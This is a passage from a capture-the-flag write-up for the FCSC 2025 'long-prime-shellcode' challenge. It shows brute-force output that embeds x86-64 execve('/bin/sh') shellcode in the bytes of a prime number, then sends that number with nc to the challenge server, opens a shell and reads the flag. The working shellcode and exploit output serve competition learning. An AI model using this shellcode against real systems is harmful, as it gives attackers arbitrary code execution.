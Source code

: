 ```
Failed... trying [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5]

<..snipped..>

Failed... trying [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5, 71, 85, a4, 5f, bf, 4c, 7d, 93, 5f, 9a, b8, 62, 8b, c1, 3e, e5]
Found number!
Number = [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d, e5, 71, 85, a4, 5f, bf, 4c, 7d, 93, 5f, 9a, b8, 62, 8b, c1, 3e, e5, 3d] = 1136168228744543667092687598228118685733169310052882866571434529108670639140276558090927371324394613684412034068822809408889679304907637098415128356906066471131711077113554360984959205701023760002121431057599946827011250945948208872787397503097032067020434475433028242919456722139980945179703776777738662894365740672096622488149105027122866165223712061
rm /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o
```

Now let's give this number to the binary:

```
➜  02-long-prime-shellcode nc chall.fcsc.fr 2100 
1136168228744543667092687598228118685733169310052882866571434529108670639140276558090927371324394613684412034068822809408889679304907637098415128356906066471131711077113554360984959205701023760002121431057599946827011250945948208872787397503097032067020434475433028242919456722139980945179703776777738662894365740672096622488149105027122866165223712061
ls
flag.txt
long-prime-shellcode
cat flag.txt
FCSC{41948264d0f83ddb2ececa5267e30cb4ce7fd6c7bab2f7b2b935adfcc99b5662}
```

For full code, please visit https://github.com/micronoyau/FCSC-2025/tree/master

